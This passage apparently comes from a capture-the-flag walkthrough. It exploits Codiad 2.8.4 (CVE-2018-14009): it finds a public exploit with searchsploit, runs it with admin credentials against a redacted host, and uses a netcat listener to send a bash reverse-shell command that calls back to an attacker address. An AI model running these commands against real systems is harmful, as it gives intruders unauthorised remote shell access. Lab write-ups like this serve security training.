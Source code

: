 ```bash
define("COMPONENTS", BASE_PATH . "/components");
define("PLUGINS", BASE_PATH . "/plugins");
define("THEMES", BASE_PATH . "/themes");
define("DATA", BASE_PATH . "/data");
define("WORKSPACE", BASE_PATH . "/workspace");
```

<h2>CVE-2018-14009, Codiad 2.8.4 - Remote Code Execution (Authenticated)</h2>

```bash
:~# searchsploit codiad
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities                                                                 | php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion                                                                     | php/webapps/36371.txt
Codiad 2.8.4 - Remote Code Execution (Authenticated)                                                    | multiple/webapps/49705.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (2)                                                | multiple/webapps/49902.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (3)                                                | multiple/webapps/49907.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (4)                                                | multiple/webapps/50474.txt
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
:~# searchsploit -m multiple/webapps/49705.py
  Exploit: Codiad 2.8.4 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49705
     Path: /opt/exploitdb/exploits/multiple/webapps/49705.py
    Codes: CVE-2018-14009
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /root/49705.py
```

```bash
:~# python3 49705.py http://admin:dante1@xx.xxx.xxx.xx/inferno/ admin dante1 xx.xxx.xx.xxx 4444 linux
```

```bash
:~# echo 'bash -c "bash -i >/dev/tcp/xx.xxx.xx.xxx/4445 0>&1 2>&1"' | nc -lnvp 4444
Listening on 0.0.0.0 4444
```
